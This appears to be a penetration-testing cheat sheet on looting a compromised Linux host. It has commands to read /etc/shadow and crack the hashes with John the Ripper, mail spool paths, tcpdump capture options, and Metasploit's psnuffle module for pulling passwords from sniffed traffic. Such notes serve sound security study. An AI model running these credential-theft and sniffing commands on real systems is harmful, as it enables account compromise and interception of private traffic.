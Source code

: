 # Loot Linux

## Passwords and Hashes

* First grab the passwd and shadow file

```bash
cat /etc/passwd
cat /etc/shadow
```

* crack the password using john the ripper

```bash
unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## Mail

```bash
/var/mail
/var/spool/mail
```

## Tcp-Dump

* figure out what interfaces the machine is using: ifconfig
* then start to capture packets

### Fast Command

```bash
tcpdump -i any -s0 -w capture.pcap
tcpdump -i eth0 -w capture -n -U -s 0 src not 192.168.1.X and dst not 192.168.1.X
tcpdump -vv -i eth0 src not 192.168.1.X and dst not 192.168.1.X
```

### Useful Flags

* let's start with the basics. "tcpdump" - this command will output all network traffic straight to the terminal. Might be hard to understand if there is a lot of traffic
* \-A (stands for Ascii, and output it in ascii)
* \-w file.pcap the (saves the output into the filename of your choice, the traffic is stored in pcap-format, which is the standard packet-analysis-format)
* \-i any (will capture traffic for all interfaces)
* \-D (show list of all interfaces)
* \-q (be less verbose/more quiet)
* \-s (the default size that tcpdump captures is only 96 bytes, to capture more you have to define it yourself, -s0 gives you the whole packet
* \-c (sets how many packets you want to intercept, then stops, useful if you have a non-interactive shell)
* port 22 (only see traffic on a specific port)
* \-vvv (verbose)

### Useful Commands

* lots of good stuff here [http://www.rationallyparanoid.com/articles/tcpdump.html](http://www.rationallyparanoid.com/articles/tcpdump.html)
* grep all GET from the wlan0 interface, this will not get any SSL-encrypted traffic

```bash
tcpdump -i wlan0 -vvv -A | grep "GET"
```

* print the traffic in hex with ascii interpretation

```bash
tcpdump -nX -r file.pcap
```

* only record tcp-traffic

```bash
tcpdump tcp -w file.pcap
```

### Sniffing for Passwords

* insert dumped traffic into metasploit and run psnuffle on it
* it will sniff passwords and usernames from pop3, imap, ftp, and HTTP GET
* easy way to find usernames and passwords from dumped traffic

```bash
use auxiliary/sniffer/psnuffle
```

* [https://www.offensive-security.com/metasploit-unleashed/password-sniffing/](https://www.offensive-security.com/metasploit-unleashed/password-sniffing/)

## References

* [http://www.thegeekstuff.com/2010/08/tcpdump-command-examples/](http://www.thegeekstuff.com/2010/08/tcpdump-command-examples/)
* [https://danielmiessler.com/study/tcpdump/](https://danielmiessler.com/study/tcpdump/)
* [https://www.sans.org/reading-room/whitepapers/testing/post-exploitation-metasploit-pivot-port-33909](https://www.sans.org/reading-room/whitepapers/testing/post-exploitation-metasploit-pivot-port-33909)
* [http://jvns.ca/blog/2016/03/16/tcpdump-is-amazing/](http://jvns.ca/blog/2016/03/16/tcpdump-is-amazing/)
